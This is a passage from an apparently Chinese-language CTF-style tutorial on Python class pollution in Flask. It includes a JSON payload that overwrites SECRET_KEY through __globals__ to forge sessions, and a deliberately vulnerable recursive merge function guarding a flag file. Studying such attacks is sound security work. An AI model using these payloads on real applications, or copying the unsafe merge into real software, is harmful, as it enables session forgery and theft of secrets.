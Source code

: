 ```plain
    return "[+]Config:%s"%(app.config['SECRET_KEY'])

app.run(host="0.0.0.0")
```

这里我们并无法确定 secretkey 是什么，所以如果能够污染我们就可以实现任意的 session 伪造

```plain
{
    "__init__" : {
        "__globals__" : {
            "app" : {
                "config" : {
                    "SECRET_KEY" :"Polluted~"
                }
            }
        }
    }
}
```

### \_got\_first\_request：

用于判定是否某次请求为自`Flask`启动后第一次请求，是`Flask.got_first_request`函数的返回值，此外还会影响装饰器`app.before_first_request`的调用，而`_got_first_request`值为假时才会调用：

所以如果我们想调用第一次访问前的请求，还想要在后续请求中进行使用的话，我们就需要将\_got\_first\_request 从 true 改成 false 然后就能够在后续访问的过程中，仍然能够调用装饰器 app.before\_first\_request 下面的可用信息。

```plain
from flask import Flask,request
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

flag = "Is flag here?"

@app.before_first_request
def init():
    global flag
    if hasattr(app, "special") and app.special == "U_Polluted_It":
        flag = open("flag", "rt").read()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
```